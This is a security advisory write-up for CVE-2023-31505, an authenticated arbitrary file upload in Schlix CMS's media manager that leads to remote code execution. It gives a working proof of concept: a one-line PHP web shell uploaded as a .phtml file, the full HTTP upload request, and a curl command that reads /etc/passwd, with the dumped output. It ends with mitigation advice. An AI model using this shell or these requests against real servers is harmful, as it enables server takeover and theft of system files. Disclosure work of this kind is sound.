


## Introduction

- **CVE-ID:** [CVE-2023-31505](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-31505)
- **Vulnerability Type:** Arbitrary File Upload Remote following Code Execution (Authenticated)
- **Affected Product Code Base:** Schlix CMS v2.2.8-1
- **Affected Component:** Affected source code 'core.mediamanager' file
- **Attack Type:** Remote 
- **Impact:** Arbitrary file uploads and remote code execution to compromise the server.
- **Attack Vectors:** To exploit the vulnerability, it is required to be authenticated with a user with access to the File Media Manager.

## Description

An authorized user can upload a file with *.phtml* extension to a path of his choice and control the content at will. This causes remote code execution (RCE) on the server.

## Exploitation

1. Login to admin panel with true credentials and go to "Tools -> Media Manager" menu from left side.


2. Click the "Upload File" and upload a file in "images" folder and catch the request with Burp.


3. But we can see that it does not accept this type of files.



4. But on the contrary, the application does accept "*.phtml*" files, so we uploaded a proof of concept:


5. In the following image, it is evident that the file is hosted and it is possible to execute PHP commands:


6. Create a new file called "*test.phtml*" and add the code "*<? passthru($_REQUEST['c']); ?>*" and send the request to the server.

#### HTTP Request
```
POST /SCHLIX_CMS/admin/app/core.mediamanager?&ajax=1&action=upload HTTP/1.1
Host: <HOST>
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
X-Schlix-Ajax: 1
Content-Type: multipart/form-data; boundary=---------------------------3094465041174962963743050336
Content-Length: 953
Origin: https://<HOST>
Connection: close
Referer: https://<HOST>/SCHLIX_CMS/admin/app/core.mediamanager
Cookie: users_currentCategory=2; core-mediamanager_currentCategory=%2Fmedia%2Fimages; scx56bdae0553f4c0fbf7ca9c95614b5989=ad3705ecc421a565a3f11ae837e38fc8
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="_csrftoken"

b45ef3afd5319dbdd559121de72ca19e6effa322
-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="uploadstartpath"

/media/images
-----------------------------3094465041174962963743050336

Content-Disposition: form-data; name="filedata[]"; filename="test.phtml"
Content-Type: application/x-php

// Proof of concept
<? passthru($_REQUEST['c']); ?>
-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="MAX_FILE_SIZE"

8388608
-----------------------------3094465041174962963743050336

Content-Disposition: form-data; name="filedata__total_file_size"

0
-----------------------------3094465041174962963743050336
Content-Disposition: form-data; name="filedata__max_file_count"

20
-----------------------------3094465041174962963743050336--
```


4. Go to "*https://HOST/SCHLIX_CMS/web/main/media/images/test.phtml?c=/etc/passwd*" or execute with **curl**.

#### Executing commands with curl

```bash
> curl -s -X POST https://<HOST>/SCHLIX_CMS/web/main/media/images/test.phtml -d "c=cat /etc/passwd"
// Proof of concept
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-bus-proxy:x:999:998:systemd Bus Proxy:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
soft:x:1000:1000::/home/soft:/sbin/nologin
saslauth:x:996:76:Saslauthd user:/run/saslauthd:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
emps:x:995:1001::/home/emps:/bin/bash
named:x:25:25:Named:/var/named:/sbin/nologin
exim:x:93:93::/var/spool/exim:/sbin/nologin
vmail:x:5000:5000::/var/local/vmail:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
*******:x:993:993::/home/*******:/bin/bash
apache:x:992:991::/home/apache:/sbin/nologin
```
#### Result of the evidence


## Mitigation
- Restrict invalid file types, allowing only image files (e.g. Jpg, png, etc.).
- Perform file integrity check, validating that it is an expected file type and not a malicious one.
- Store these files outside the application (e.g. S3 AWS Buckets), preventing the attacker from getting relevant information or compromising the host server.

## Acknowledgments
We would like to thank [**MITRE CVE**](https://cve.mitre.org/) for their attention and speed in the procedures with the CVE identifier.

## References
- [Mitre - CVE-2023-31505](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-31505)
- https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload